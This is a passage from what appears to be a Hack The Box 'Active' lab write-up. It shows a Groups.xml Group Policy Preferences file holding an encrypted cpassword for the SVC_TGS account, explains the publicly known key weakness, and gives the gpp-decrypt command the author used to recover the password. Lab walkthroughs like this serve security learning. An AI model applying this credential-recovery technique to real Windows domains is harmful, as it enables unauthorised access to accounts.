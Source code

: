 
**R2: Replication**

### Q3: Which file has encrypted account credentials in it?

After getting access to the `Replication` share, we can navigate it searching for files. What I did was simply searching for any files, downloading them and inspecting each one of them in my own machine. Luckily, there wasn't many of them and I eventually found the right one.

![alt text](image-4.png)

```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
	<User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
		<Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/>
	</User>
</Groups>
```

**R3: Groups.xml** 



### Q4: What is the decrpyted password for the SVC_TGS account?

The file we previously found is generated by an old version of Windows GPP that contained a vulnerable feature. It stored user data using these `Groups.xml` files, which besides being accessible by any user, would contain this hash that used a publicly documented key for encryption, allowing anyone to decrypt it and get other user's credentials.

On my solve, as I still didn't know about the vulnerability, I spent a decent amount of time trying to figure out how to crack the hash with hashcat, which couldn't identify the hash format.

Eventually, I googled "groups.xml password format", which returned a couple of results that talked about GPP, and that led me into the [HackTricks page](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#cached-gpp-pasword) on Windows LPE.

On the linked section, I found the explanation for the vulnerability I just described and discovered this script to decrypt the password. 

```bash
$ gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```
![alt text](image-5.png)
